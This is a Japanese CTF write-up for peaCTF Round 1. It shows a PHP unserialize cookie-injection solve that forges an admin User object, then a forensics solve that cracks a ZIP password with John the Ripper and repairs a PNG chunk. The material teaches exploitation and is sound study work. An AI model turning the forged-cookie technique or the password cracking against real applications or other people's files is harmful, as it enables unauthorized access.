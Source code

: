 ```yaml
---
layout: post
title: peaCTF Round 1 の write-up
categories: [ctf]
date: 2019-07-29 21:00:00 +0900
---
```


7 月 22 日から 7 月 28 日にかけて開催された [peaCTF Round 1](https://peactf.com/) に、チーム zer0pts として参加しました。最終的にチームで 5100 点を獲得し、順位は得点 540 チーム中 27 位でした。うち、私は 2 問を解いて 1400 点を入れました。

他のメンバーの write-up はこちら。

- 

以下、私が解いた問題の writeup です。

## Web Exploitation
### Educated Guess (600)
> There is a secured system running at http://(省略)/query.php. You have obtained the source code.

以下のように `query.php` のソースコードも添付されていました。

```php
<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
<?php

// https://www.php-fig.org/psr/psr-4/

function autoload($class)
{
    include $class . '.class.php';
}

spl_autoload_register('autoload');

if (!empty($_COOKIE['user'])) {
    $user = unserialize($_COOKIE['user']);

    if ($user->is_admin()) {
        echo file_get_contents('../flag');
    } else {
        http_response_code(403);
        echo "Permission Denied";
    }
} else {
    echo "Not logged in.";
}
?>
</body>
</html>
```

Cookie に入っている文字列を `unserialize` し、その結果生成されたオブジェクトの `is_admin` メソッドを呼んで真と評価される値が返ってくればフラグが表示されるようです。

[PHP のドキュメント](https://www.php.net/manual/ja/)で `is_admin` というメソッドを持つクラスを探してみましたが見つかりません。ビルトインのクラス以外を使う必要がありそうです。

ここでソースコードを見直してみましょう。

```php
<?php
︙
function autoload($class)
{
    include $class . '.class.php';
}

spl_autoload_register('autoload');
```

存在していないクラスのインスタンスが復元されようとした場合、`(クラス名).class.php` を自動的に読み込むようです。

適当に探してみると、`$user` という変数名から推測して `User.class.php` というファイルを見つけることができました。試しに `User` というクラスのインスタンスが復元されるような文字列を作ってみましょう。

```php
<?php
class User {}
$o = new User;
echo urlencode(serialize($o));
```

これを実行して出力された文字列を Cookie にセットし、リロードすると `Permission Denied` と表示されました。まだ何か足りないようです。

とりあえず、`admin` というそれっぽいプロパティにそれっぽい値を入れてみます。

```php
<?php
class User {}
$o = new User;
$o->admin = true;
echo urlencode(serialize($o));
```

これを実行して出力された文字列を Cookie にセットし、リロードするとフラグが表示されました。

```
flag{peactf_follow_conventions_3b2a868a8a16589704dc755276fb11fd}
```

## Forensics
### Song of My People (800)
> A specific soundcloud rapper needs help getting into his password protected zipped file directory. The initial password is in the title. You just have to know your memes, and pick the right instrument! We were on the fence on giving you an image to go along with this puzzle, but the loincloth was too scandalous. Alternatively, you could bruteforce.
> 
> 添付ファイル: song_of_my_people.zip

暗号化された ZIP ファイルが与えられました。中には `a lengthy issue.png`、`README.txt`、よくわからない mp3 ファイルの 3 つのファイルが入っているようです。

John the Ripper に投げてみましょう。

```
$ zip2john song_of_my_people.zip > song_of_my_people.john
$ john song_of_my_people.john --wordlist=/usr/share/dict/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
︙
violin           (song_of_my_people.zip)
```

`violin` がパスワードのようです。ZIP ファイルを展開して `a lengthy issue.png` を開こうとしてみましたが、画像に問題があるようで正常に表示できません。

`pngcheck` で確認してみましょう。

```
$ pngcheck a\ lengthy\ issue.png 
a lengthy issue.png  invalid number of PLTE entries (4.04167e+08)
ERROR: a lengthy issue.png
```

`PLTE` チャンクの長さがおかしいようです。バイナリエディタで開いてみると、チャンク名の前の 4 バイトが `HELP` と明らかにおかしな内容になっていました。次の `pHYs` チャンクまでの距離などを確認して `00 00 02 68` に直すと、正常に表示できるようになりました。

画像には以下のような文章が書かれていました。

```
GREAT WORK FIXING THE CHECKSUM! This should give you the FLAG. Ex: {27_thousand_spaces_3092}

https://soundcloud.com/lil-redacted/live-concert-audio

{(how many)_thousand_spaces, or seats, were left at the most recent concert of [redacted]? + _(page number)} of the concert archive

54 68 65 20 4c 69 72 61 72 79 20 6f 66 20 42 61 62 65 6c 3a 0a 28 77 69 74 68 20 6e 65 77 20 61 64 64 69 74 69 6f 6e 20 6f 66 20 61 6c 6c 20 74 69 65 20 70 6f 73 73 69 62 6c 65 20 64 69 73 73 20 74 72 61 63 6b 73 20 74 6f 20 65 76 65 72 20 62 65 20 6d 61 64 65 20 61 6e 64 20 65 76 65 72 20 63 6f 75 6c 64 20 62 65 20 6d 61 64 65 29
```

`{???_thousand_spaces_???}` の 2 箇所の `???` を埋めればよいようです。

書かれている SoundCloud のページにアクセスすると以下のような説明がありました。

> this concert is part of a larger tour that is archived completely in some kind of hexagonal library. The archive is named between "maybe" and a "repeat". Should be on the 371st page.
> 
> I would give you an mp3 of this audio, but I don't know how to navigate those sketchy websites.

後ろの `???` は `371` でよさそうです。

前の `???` はよくわかりませんが、`1` から順番に試していくと `3` で通りました。

```
{3_thousand_spaces_371}
```